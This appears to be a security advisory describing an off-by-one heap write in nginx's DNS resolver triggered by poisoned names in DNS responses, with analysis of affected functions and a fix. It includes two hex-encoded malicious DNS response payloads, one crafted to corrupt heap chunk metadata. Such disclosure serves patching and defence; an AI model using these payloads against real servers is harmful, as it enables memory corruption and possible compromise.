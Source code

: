 There are several ways in which a DNS response can trigger the vulnerability.

First, nginx must have sent a DNS request and must be waiting for a response.

Then, a poisoned name can be injected in several parts of a DNS response:

* DNS Questions QNAME,
* DNS Answers NAME,
* DNS Answers RDATA for CNAME and SRV responses,

Keep in mind that the vulnerable function can be hit several times while
processing a response, effectively performing several off-by-one writes,
by crafting a response with several poisoned QNAME, NAME or RDATA values.

Furthermore, when the attacker delivers a poisoned CNAME, it will be
resolved recursively, triggering an additional OOB write during
`ngx_resolve_name_locked()` call to `ngx_strlow()` (ngx_resolver.c:594)
and additional OOB reads during `ngx_resolver_dup()` (ngx_resolver.c:790)
and `ngx_crc32_short()` (ngx_resolver.c:596).

An example payload of DNS response for a 'example.net' request, containing
a poisoned CNAME:

~~~

bcb881800001000100000000076578616d706c65036e657400001c0001c00c0005000100000e10000b0141c004
         ^                                                                        |   ^ pointer to position 0x04 -|
         NULL byte <----------------------------------------------------------------------------------------------|
                                                                                  |            
                                                                                  ^ 1 byte label

~~~

A slightly different payload (the one in poc.py) fills enough bytes to
overwrite the `next_chunk.mchunk_size` least significant byte with a dot:

~~~

bcb881800001000100000000076578616d706c65036e657400001c0001c00c0005000100000e10000b18414141414141414141414141414141414141414141414141c004
                                                                                  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                                                                    |
                                                                                    24 bytes label

~~~

A 24 bytes label leads to a 24 bytes buffer allocated, which is filled with 24
bytes + an out of bounds dot character.


## Fix / Workarounds

Allocating an extra byte for the spurious dot character written at the end
of the poisoned domain names mitigates the issue.
